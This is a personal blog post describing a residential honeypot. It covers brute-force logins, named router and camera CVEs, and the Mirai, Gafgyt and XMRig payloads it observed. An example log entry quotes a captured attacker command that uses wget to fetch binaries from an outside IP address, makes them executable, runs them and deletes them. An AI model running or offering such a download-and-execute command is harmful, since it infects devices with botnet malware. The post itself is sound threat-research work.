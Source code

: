 ```yaml
---
title: Yesturday's Router, Today's Pivot!
slug: residental-threat-intel-w-oak
date_published: 2025-05-29T21:51:34+00:00
date_updated: 2025-05-29T21:51:34+00:00
tags: Threat-Intel, Linux, Oaks-Internet-Safari
excerpt: Hunting Residential Threats and Fighting Automated Botnets
cover: '2025/5/residental-threat-intel-w-oak/banner.png'
author:
  name: OakAtsume
  avatar: 'avatars/oak.gif'
---
```


# Yesturday's Router, Today's Pivot!

**Residential Threat Hunting and the War on Automated Threats and Botnets** </br>
*By: Oak Atsume* </br>

## Introduction

My goal with this project was simple: to understand what kind of threats are actually hitting people like ***you and me***.  Most cybersecurity research focuses on big enterprise or industrial infrastructure. But what about our homes, our routers, our smart devices?

I believe the residential space deserves more attention. That’s where real people live, and where real threats land. And guess what? Monitoring a home network gives us an unfiltered look into what’s going on across the Internet.</br>
(*Spoiler: it’s a lot of **Mirai** and Crypto **miners***) </br>

## Someone's knocking...

Since I started running a honeypot in a residental network, one thing became clear: **we're under constant attack!**. 

Governments like to point fingers to China, Russia, North Korea. But in reality it's often more mundane. The biggest threat to our digital lives may not be a foreign nation, but instead **The negligence of vendeors and users alike!**
![Attack-Map](/images/2025/5/residental-threat-intel-w-oak/country-map.png)



## Who's Knocking, and What are they doing??

The vast majority of attacks I observed targeted Unix-like devices, Routers, IP Cameras, NAS Boxes, etc.. 
The attackers typically rely on two approaches:

* **Brute Force Attacks**, on SSH/TELNET credentials.
![Creds-Map](/images/2025/5/residental-threat-intel-w-oak/creds.png)

* **Exploitation of known vulnerabilities** in outdated devices.
![Attack](/images/2025/5/residental-threat-intel-w-oak/attack.png)

It's not sophisticated, but it doesn't have to be! It only takes one vulnerable device to given an attacker a foothold.




### Notably used CVE's 
* **CVE-2024-6047** - Command injection for GeoVision IoT systems
* **CVE-2024-4577** - CGI argument injection PHP (can lead to RCE)
* **CVE-2023-1389** - Command injection in TP-Link Archer AX-21 routers

and more!
These aren't "zero-days". They're simply still relevant because **companies don’t patch, and users don’t update**!
That's the real threat here.

## They’re In. Now What?

Once attackers gain access, they typically drop one of three things:

* A variant of **Mirai** or **Gafgyt** to enroll the device into a botnet
* A **cryptocurrency miner** (usually XMRig)
* A **downloader script** to fetch more malware


```json
  {
    "ip": "176.65.148.181",
    "port": 2222,
    "country": "Germany",
    "city": null,
    "lat": 51.2993,
    "lon": 9.491,
    "firstSeen": 1745895007,
    "lastSeen": 1745895015,
    "loginPasswordAttempts": [
      {
        "timestamp": 1745895011,
        "username": "root",
        "password": "admin"
      }
    ],
    "loginKeyAttempts": [

    ],
    "executedCommands": [
      {
        "timestamp": 1745895014,
        "command": "cd /tmp; wget 209.141.34.106/PangaKenya/KKveTTgaAAsecNNaaaa.x86_64; chmod +x KKveTTgaAAsecNNaaaa.x86_64; ./KKveTTgaAAsecNNaaaa.x86_64 ; rm -rf KKveTTgaAAsecNNaaaa.x86_64; wget 209.141.34.106/PangaKenya/KKveTTgaAAsecNNaaaa.x86; chmod +x KKveTTgaAAsecNNaaaa.x86; ./KKveTTgaAAsecNNaaaa.x86 ; rm -rf KKveTTgaAAsecNNaaaa.x86",
        "sucessful": true
      }
    ],
    "uploadedFiles": [

    ],
    "downloadedFiles": [
      {
        "timestamp": 1745895014,
        "filename": null,
        "sha": "811cd6ebeb9e2b7438ad9d7c382db13c1c04b7d520495261093af51797f5d4cc"
      },
      {
        "timestamp": 1745895014,
        "filename": null,
        "sha": "9ac2e308b0b30354575bba88169283fa7439d34937a148ccb390bcec3c6e296b"
      }
    ]
  }
```
> Example of an observered log.

Often, these devices aren’t the end goal—they’re stepping stones. Your router becomes **someone else’s launchpad**. A pivot point for scanning, attacking, or anonymizing future activity.

## The Bots Are Winning

These threats aren’t launched by people sitting at a keyboard. What I’m observing is an **entirely automated threat landscape**.

The cycle looks like this:

1. Scan
2. Fingerprint
3. Exploit
4. Drop malware
5. Monetize
6. Move on

If it fails? No problem. Move to the next IP. It’s a numbers game, and the bots play it well.

## From Curiosity to Chaos

Over the weeks I’ve been running this honeypot, a clear pattern has emerged:

1. A new, easy-to-exploit CVE appears
2. A fresh botnet variant (often Mirai-based) emerges to exploit it
3. It spreads rapidly, monetizing devices along the way

It happens fast. In days. The ecosystem is efficient, ruthless, and almost entirely unsupervised.

---

## Final Thoughts

Our homes are on the frontlines of a silent war. And the scariest part? Most people have no idea it’s happening.

If this project has taught me anything, it’s this: **residential cybersecurity deserves more attention**. Not just for the sake of privacy or convenience, but because our homes are being conscripted into someone else’s cyberwar.

We may not be able to stop every attack, but we can do something even more powerful: **understand them**. And understanding is the first step toward fighting back.

![Skibbity-Toilet](/images/2025/5/residental-threat-intel-w-oak/atack-logs.png)

> Break-Thru, I awknolege this blog is very boring lol; but it's mean to be formal. hopefully if I have more time I will make some more that are fun!